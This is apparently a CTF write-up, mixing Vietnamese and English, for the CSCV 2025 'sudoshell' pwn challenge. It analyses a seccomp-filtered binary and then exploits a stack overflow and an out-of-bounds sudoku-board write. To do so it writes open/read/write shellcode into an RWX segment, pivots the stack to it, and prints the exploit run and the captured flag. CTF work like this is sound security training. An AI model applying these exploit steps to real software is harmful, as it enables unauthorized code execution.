


# ~ SudokuS ~

## Phân tích challenge


### Check security
```bash
% file sudoshell 
sudoshell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=978e28fd6fab3cdde4c4f53efbb44af97f9f70ee, for GNU/Linux 3.2.0, not stripped

% checksec sudoshell 
[*] '/Users/mdung/Study/CTF/learn/Write-up/CSCV-2025/sudokus/public/sudoshell'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```
### Seccomp
```bash
__int64 init_sec_comp()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(2147418112LL);
  if ( !v1 )
  {
    perror("seccomp_init failed");
    exit(1);
  }
  seccomp_rule_add(v1, 0x80000000LL, 0x3BLL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 0x142LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 0x39LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 58LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 56LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 435LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 101LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 41LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 49LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 42LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 50LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 43LL, 0LL);
  seccomp_rule_add(v1, 0x80000000LL, 288LL, 0LL);
  if ( (unsigned int)seccomp_load(v1) )
  {
    perror("seccomp_load failed");
    seccomp_release(v1);
    exit(1);
  }
  return seccomp_release(v1);
}
```



### Main
```bash
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+8h] [rbp-8h] BYREF
  int v5; // [rsp+Ch] [rbp-4h]

  init(argc, argv, envp);
  init_sec_comp();
  puts("=== CSCV2025 - SudoShell ===");
  usage();
  printf("> ");
  v5 = __isoc99_scanf("%d", &v4);
  if ( v5 <= 0 )
  {
    perror("scanf failed");
    exit(1);
  }
  switch ( v4 )
  {
    case 1:
      start_game();
      break;
    case 2:
      exit(0);
    case 3:
      help();
      break;
  }
  return 0;
}
```

### Start_game
```bash
__int64 start_game()
{
  unsigned __int8 value; // [rsp+Dh] [rbp-23h] BYREF
  unsigned __int8 col; // [rsp+Eh] [rbp-22h] BYREF
  unsigned __int8 row; // [rsp+Fh] [rbp-21h] BYREF
  char buf[28]; // [rsp+10h] [rbp-20h] BYREF
  int input; // [rsp+2Ch] [rbp-4h]

  value = 0;
  printf("What's your name? ");
  input = read(0, buf, 0x27uLL);                // bof
  if ( input <= 0 )
  {
    perror("read failed");
    exit(1);
  }
  buf[input] = 0;
  printf("Welcome %s\n", buf);
  initBOARD();
  while ( 1 )
  {
    displayBOARD();
    if ( (unsigned __int8)isComplete() )
    {
      puts("Congratulations!");
      return 0LL;
    }
    printf("> ");
    input = __isoc99_scanf("%hhu %hhu %hhu", &row, &col, &value);
    if ( input <= 0 )
    {
      perror("scanf failed");
      exit(1);
    }
    if ( !row && !col && !value )
      break;
    if ( !canEdit(--row, --col) || (unsigned __int8)isValid(row, col, value) != 1 )
      puts("Invalid input!");
    else
      BOARD[9 * row + col] = value;            // oob
  }
  puts("Bye!");
  return 0LL;
}
```

## Vulnerability
* BOF ghi đè 7 byte rbp
    - Stack pivot -> return shellcode
* OOB từng byte bất kì đâu theo luật sudoku
    - Arbitrary write -> ghi shellcode tùy ý lên phân vùng rwx

## Exploit
Ghi 1 char:
``` bash
def writeC(addr, c):
    if c == 0: return
    payload = f"{(addr - board) // 9 + 1} {(addr - board) % 9 + 1} {c}"
    sna(b"> ", payload)
```
Ghi tất cả:
```bash
def writeA(addr, a):
    for i in range(len(a)):
        writeC(addr + i, a[i])
```

Shellcode open + read + write tà đạo bypass sudoku:
```bash
shellcode = asm('''
        mov rdi, 0x404730
        pop rsi
        pop rdx
        push 0x2
        pop rax
        syscall

        push rax
        pop rdi
        mov rsi, 0x404931
        add dx, 0x70
        pop rax
        nop
        syscall

        mov rax, 0x1
        push 0x1
        pop rdi
        syscall
        ''')
```

Break vòng while(1) để leave + ret về main và nhảy vào shellcode đã chuẩn bị sẵn
```bash
sla(b"> ", b"0 0 0\n")
```

## [Script](./solve.py)
```bash
% python3 solve.py REMOTE
[!] Could not populate PLT: Cannot allocate 1GB memory to run Unicorn Engine
[+] Opening connection to pwn3.cscv.vn on port 5555: Done
[*] Test: 0x404230
[*] Test: 0x4043c0
   0:   48 c7 c7 30 47 40 00    mov    rdi, 0x404730
   7:   5e                      pop    rsi
   8:   5a                      pop    rdx
   9:   6a 02                   push   0x2
   b:   58                      pop    rax
   c:   0f 05                   syscall
   e:   50                      push   rax
   f:   5f                      pop    rdi
  10:   48 c7 c6 31 49 40 00    mov    rsi, 0x404931
  17:   66 83 c2 70             add    dx, 0x70
  1b:   58                      pop    rax
  1c:   90                      nop
  1d:   0f 05                   syscall
  1f:   48 c7 c0 01 00 00 00    mov    rax, 0x1
  26:   6a 01                   push   0x1
  28:   5f                      pop    rdi
  29:   0f 05                   syscall
[*] Switching to interactive mode
Bye!
CSCV2025{Y0u_kn0w_h0w_t0_bu1ld_sh4llc03}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00$                                                                                                  /usr/bin/timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to pwn3.cscv.vn port 5555
[*] Got EOF while sending in interactive
```